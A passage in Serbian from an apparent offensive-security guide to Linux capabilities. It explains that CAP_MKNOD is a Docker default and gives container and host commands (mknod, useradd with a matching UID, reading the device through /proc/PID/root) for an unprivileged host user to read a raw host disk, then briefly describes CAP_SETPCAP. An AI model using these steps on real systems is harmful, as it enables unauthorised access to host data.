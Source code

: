 Ovo je podrazumevana sposobnost za Docker ([https://github.com/moby/moby/blob/master/oci/caps/defaults.go#L6-L19](https://github.com/moby/moby/blob/master/oci/caps/defaults.go#L6-L19)).

Ova sposobnost omogućava eskalaciju privilegija (putem čitanja celog diska) na hostu, uz sledeće uslove:

1. Imati početni pristup hostu (bez privilegija).
2. Imati početni pristup kontejneru (Privilegovan (EUID 0), i efektivna `CAP_MKNOD`).
3. Host i kontejner trebaju deliti isti korisnički prostor.

**Koraci za kreiranje i pristupanje blokovskom uređaju u kontejneru:**

1. **Na hostu kao standardni korisnik:**

* Odredite svoj trenutni korisnički ID pomoću `id`, na primer, `uid=1000(standardnikorisnik)`.
* Identifikujte ciljni uređaj, na primer, `/dev/sdb`.

2. **Unutar kontejnera kao `root`:**

```bash
# Create a block special file for the host device
mknod /dev/sdb b 8 16
# Set read and write permissions for the user and group
chmod 660 /dev/sdb
# Add the corresponding standard user present on the host
useradd -u 1000 standarduser
# Switch to the newly created user
su standarduser
```

3. **Nazad na hostu:**

```bash
# Locate the PID of the container process owned by "standarduser"
# This is an illustrative example; actual command might vary
ps aux | grep -i container_name | grep -i standarduser
# Assuming the found PID is 12345
# Access the container's filesystem and the special block device
head /proc/12345/root/dev/sdb
```

Ovaj pristup omogućava standardnom korisniku pristup i potencijalno čitanje podataka sa `/dev/sdb` preko kontejnera, iskorišćavajući deljene korisničke namespace-ove i dozvole postavljene na uređaju.

### CAP\_SETPCAP

**CAP\_SETPCAP** omogućava procesu da **izmeni skupove sposobnosti** drugog procesa, omogućavajući dodavanje ili uklanjanje sposobnosti iz efektivnih, nasleđenih i dozvoljenih skupova. Međutim, proces može samo izmeniti sposobnosti koje poseduje u svom dozvoljenom skupu, čime se osigurava da ne može povećati privilegije drugog procesa iznad svojih sopstvenih. Nedavna ažuriranja kernela su pooštrila ove pravila, ograničavajući `CAP_SETPCAP` samo na smanjenje sposobnosti u svom ili dozvoljenom skupu svojih potomaka, s ciljem smanjenja rizika po bezbednost. Za korišćenje je potrebno imati `CAP_SETPCAP` u efektivnom skupu i ciljane sposobnosti u dozvoljenom skupu, koristeći `capset()` za izmene. Ovo sažima osnovnu funkciju i ograničenja `CAP_SETPCAP`, ističući njegovu ulogu u upravljanju privilegijama i poboljšanju bezbednosti.

**`CAP_SETPCAP`** je Linux sposobnost koja omogućava procesu da **izmeni skupove sposobnosti drugog procesa**. Dodeljuje mogućnost dodavanja ili uklanjanja sposobnosti iz efektivnih, nasleđenih i dozvoljenih skupova sposobnosti drugih procesa. Međutim, postoje određena ograničenja u vezi sa korišćenjem ove sposobnosti.
